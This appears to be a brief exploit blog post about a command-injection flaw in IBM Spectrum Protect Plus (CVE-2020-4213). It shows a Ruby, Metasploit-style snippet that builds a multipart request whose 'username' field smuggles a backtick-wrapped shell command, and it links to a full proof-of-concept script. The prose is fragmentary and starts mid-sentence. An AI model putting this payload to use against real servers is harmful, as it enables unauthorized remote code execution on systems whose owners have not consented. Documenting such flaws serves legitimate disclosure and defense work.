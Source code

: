 ```yaml
---
layout: post
title: IBM Spectrum Protect Plus username Command Injection
date: 2020-03-09
excerpt: "."
tags: [exploit]
comments: false
---
```

## IBM Spectrum Protect Plus username Command Injection Remote Code Execution Vulnerability
the body of the request.
```
dbl = Rex::MIME::Message.new
dbl.add_part("product", nil, nil, "form-data; name=\"ltype\"")
dbl.add_part("__|`#{cmd}`", nil, nil, "form-data; name=\"username\"")
dbl.add_part("__", nil, nil, "form-data; name=\"password\"")
data = dbl.to_s
```
[poc](https://github.com/ceballosm/scratchpad/blob/master/CVE-2020-4213.rb)
